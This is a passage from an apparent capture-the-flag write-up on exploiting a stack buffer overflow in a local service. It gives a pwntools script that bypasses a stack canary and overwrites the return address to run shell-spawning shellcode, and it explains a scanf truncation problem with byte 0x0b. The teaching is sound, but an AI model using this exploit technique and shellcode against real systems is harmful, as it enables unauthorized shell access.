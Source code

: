The next step is to determine the offset to the return address. After some trial and error, it's found to be 12 bytes after the canary. After which is to generate the shellcode. pwntools actually comes with a nifty shellcode generator (shellcraft module). I used a shellcode which will pop a shell.

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
conn = remote('localhost', 4444)
msg = conn.recvline()
bufaddr = int(msg[msg.find(":")+2:], 16)

shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode
payload += "A"*(128 - len(shellcode))
payload += pack(0x475a31a5) + pack(0x40501555)
payload += "B"*(12)
payload += pack(bufaddr)
conn.sendline(payload)
print conn.recvline()
```
![02](img/02.png)

However, it does not seem to work. Our input seems to be truncated. Turns out the "__isoc99_scanf" function treats "0x0b" as a string terminator. 

For those not familiar with what is a string terminator:  https://en.wikipedia.org/wiki/String_%28computer_science%29#Null-terminated

Normally the string terminator is the null character "0x00". However, in this case, it seems that "0x0b" is also treated as a string terminator

Let's take a closer look at the generated shellcode

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
print shellcraft.i386.linux.sh()
```
will print out (note the "push 0xb" instruction )
```asm
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f

    /* call execve('esp', 0, 0) */
    mov ebx, esp
    xor ecx, ecx
    push 0xb
    pop eax
    cdq /* Set edx to 0, eax is known to be positive */
    int 0x80
```
